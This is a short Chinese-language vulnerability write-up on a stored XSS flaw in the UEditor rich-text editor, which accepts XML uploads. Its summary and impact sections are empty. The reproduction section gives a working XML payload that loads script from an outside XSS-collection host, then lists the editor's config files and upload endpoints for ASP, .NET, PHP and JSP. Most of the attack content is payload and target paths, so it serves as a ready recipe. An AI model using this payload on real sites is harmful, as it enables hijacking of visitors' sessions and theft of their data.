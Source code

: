 ```yaml
---
title: ueditor 允许xml上传的xss漏洞
id: zhfly3207
---
```


# ueditor 允许xml上传的xss漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

```
<html>
<head></head>
<body>
<something:script src="</tExtArEa>'"><sCRiPt sRC=http://xssye.com/tVbS></sCrIpT>" xmlns:something="xss平台地址">1234</something:script>
</body>
</html> 
```

Ueditor 默认支持上传 xml ：config.json可以查看支持上传的后缀

```
/ueditor/asp/config.json
/ueditor/net/config.json
/ueditor/php/config.json
/ueditor/jsp/config.json 
```

上传文件路径

```
/ueditor/index.html

/ueditor/asp/controller.asp?action=uploadimage

/ueditor/asp/controller.asp?action=uploadfile

/ueditor/net/controller.ashx?action=uploadimage

/ueditor/net/controller.ashx?action=uploadfile

/ueditor/php/controller.php?action=uploadfile

/ueditor/php/controller.php?action=uploadimage `/ueditor/jsp/controller.jsp?action=uploadfile

/ueditor/jsp/controller.jsp?action=uploadimage` 
```